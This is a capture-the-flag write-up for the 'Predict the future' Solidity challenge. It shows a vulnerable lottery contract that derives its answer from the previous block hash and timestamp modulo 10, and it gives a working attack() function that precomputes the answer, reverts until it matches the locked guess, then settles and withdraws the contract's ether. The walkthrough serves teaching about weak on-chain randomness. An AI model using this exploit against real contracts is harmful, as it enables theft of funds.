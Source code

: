 # Predict the future

## topic

```solidity
pragma solidity ^0.4.21;

contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

## analyse

This time the answer needs to be locked in first and can only be checked after a certain number of blocks have settled. However, the answer is only in the range of 0 to 9 because of the modulo 10 instruction:

```solidity
uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;
```

1. if someone locked the answer, the other can't guess again until he checks the answer
2. so we can locked the answer, and then check that whether the correct answer is the same as we locked or not. If it does, we call `settle()` and get money, otherwise we try again in the next block. No one can stop us to do this because we are alway the guesser until we call `settle()`
3. So we should lock an answer to be the guesser, forecast the correct number and finally call settle() with the right number. u can use a loop to do this or forecast one by one.
4. we use `require` to prevent the tx from continuing, so if the right number is not the same as we locked it would revert and return the ETH.

PS: because the correct number depends on `block.blockhash(block.number - 1)`, it means it will get the right number depends on the previous block hash, so we could only try once in each block.

## solution

- assume that we lock the number "1", of course u can select "0~9"
- call attack() again an again until it calls successfully.

if u dont want to call it one by one, u can use loop logic.

```solidity
function attack() public {
    // prevent the tx from continuing if the answer is not going to pass as correct
    //this is the initial code in the website, it is out-of-date, so we use the newer code
    //uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;
    uint8 answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)))) % 10;
    
    require(answer == 1, "tx fail and waiting for the next block to try again");

    // make the guess and check if the challenge is complete, otherwise revert
    challenge.settle();
    require(challenge.isComplete(), "challenge not complete yet");
    
    // send funds to my address
    (bool success,) = msg.sender.call{value:address(this).balance}("");
    require(success, "call failed");
}
```









































